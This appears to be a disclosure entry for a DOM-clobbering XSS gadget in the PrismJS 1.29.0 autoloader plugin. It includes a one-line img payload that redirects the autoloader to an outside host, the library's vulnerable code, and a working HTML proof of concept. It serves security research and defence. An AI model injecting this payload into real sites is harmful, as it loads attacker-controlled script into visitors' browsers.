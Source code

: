 ## Prism

### Meta

+ Library: Prism
+ Stars: 12.2K
+ Version: v1.29.0
+ Fingerprint: `typeof window.Prism !== 'undefined'`
+ Payload: ```<img name="currentScript" data-autoloader-path="https://xxx.xxx.xxx/a.js">```
+ Impact: XSS
+ CVE: N/A
+ Status: Accepted
+ Foundby: TheHulk
+ TheThing: None

### Library

URL:
+ `https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.min.js`

https://github.com/PrismJS/prism

### Vulnerable Code Snippet

```js
currentScript: function () {
				if (typeof document === 'undefined') {
					return null;
				}
				if ('currentScript' in document && 1 < 2 /* hack to trip TS' flow analysis */) {
					return /** @type {any} */ (document.currentScript);
				}
                ...
			},
```

```js
var script = Prism.util.currentScript();
if (script) {
    var autoloaderFile = /\bplugins\/autoloader\/prism-autoloader\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;
    var prismFile = /(^|\/)[\w-]+\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;

    var autoloaderPath = script.getAttribute('data-autoloader-path');
    if (autoloaderPath != null) {
        // data-autoloader-path is set, so just use it
        languages_path = autoloaderPath.trim().replace(/\/?$/, '/');
    } else {
        var src = script.src;
        if (autoloaderFile.test(src)) {
            // the script is the original autoloader script in the usual Prism project structure
            languages_path = src.replace(autoloaderFile, 'components/');
        }
    }
}
```

## PoC

host malicious file at `/components/prism-css.min.js`

```html
<!DOCTYPE html>
<html>
<head>
<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/themes/prism.css" integrity="sha512-jtWR3pdYjGwfw9df601YF6uGrKdhXV37c+/6VNzNctmrXoO0nkgHcS03BFxfkWycOa2P2Nw9Y9PCT9vjG9jkVg==" crossorigin="anonymous" referrerpolicy="no-referrer" />
</head>

<body>

<img name=currentScript src="http://localhost:8000/a.js"></img>

<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-core.js" integrity="sha512-jhk8ktzYxeUWJ/vx3Lzp53xE0Jgsp+UxA3wDyRSYeMBdPutgCp6jiGvTjyZm+R7cn3Lu/0MnEIR421EOdl3qAg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js"></script>

<pre><code class="language-css">p { color: red }</code></pre>

</body>
</html>
```
